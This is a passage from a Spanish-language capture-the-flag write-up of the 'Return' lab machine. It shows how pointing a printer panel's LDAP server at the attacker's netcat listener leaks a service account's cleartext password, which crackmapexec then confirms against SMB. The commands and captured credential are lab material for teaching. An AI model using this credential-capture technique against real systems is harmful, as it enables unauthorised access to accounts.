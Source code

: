 
![](/imagenes/Return/return3.png)


Obsevarmos que la única información que se envía por **POST** es la del servidor, por lo tanto, debe estar intentando conectarse a esa **IP**. Para comprobar si esto de verdad ocurre o es simplemente una página inútil vamos a ingresar nuestra ip, además estaremos escuchando por el puerto **389** como dice en la página:

![](/imagenes/Return/return4.png)

Al momento de enviar la petición podemos ver que nos llega una conexión en `netcat`:
```
nc -nvlp 389
listening on [any] 389 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.108] 62090
0*`%return\svc-printer�
                       1edFg43012!!
```
Obtenemos unos números extraños, puede ser que sean una contraseña. Para verificar si esto es correcto utilizaremos `crackmapexec`:
```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```
